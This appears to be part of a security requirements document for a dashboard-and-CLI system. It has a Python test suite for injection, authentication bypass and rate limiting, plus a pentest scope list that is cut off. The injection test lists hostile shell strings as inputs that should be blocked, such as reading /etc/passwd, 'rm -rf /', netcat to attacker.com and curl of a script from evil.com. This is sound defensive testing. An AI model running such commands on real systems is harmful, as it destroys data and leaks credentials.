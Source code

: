 ### SR-8: Security Testing

#### SR-8.1: Security Test Suite

**Automated Security Tests:**
```python
class SecurityTests:
    def test_injection_prevention(self):
        """Test command injection prevention"""
        injections = [
            "; cat /etc/passwd",
            "&& rm -rf /",
            "| nc attacker.com 1234",
            "$(curl evil.com/script.sh)",
            "`whoami`"
        ]
        
        for injection in injections:
            response = self.send_command(injection)
            assert response.status_code in [400, 403]
            assert "blocked" in response.json()["error"]
    
    def test_authentication_bypass(self):
        """Test authentication cannot be bypassed"""
        attempts = [
            {"token": "invalid"},
            {"token": None},
            {"token": ""},
            {"token": self.expired_token},
            {"token": self.malformed_token}
        ]
        
        for attempt in attempts:
            response = self.create_session(**attempt)
            assert response.status_code == 401
    
    def test_rate_limiting(self):
        """Test rate limiting enforcement"""
        for i in range(100):
            response = self.send_command("test")
            if i > 60:  # Over limit
                assert response.status_code == 429
```

#### SR-8.2: Penetration Testing

**Penetration Test Scope:**
```yaml
pentest_scope:
  targets:
    - Web dashboard
    - API endpoints
    - WebSocket connections
    - CLI process isolation
  
  test_types:
    - Authentication testing
    - Authorization testing
    - Input validation testing
    - Session management testing
    - Cryptography testing
    - Business logic testing
  
  tools:
```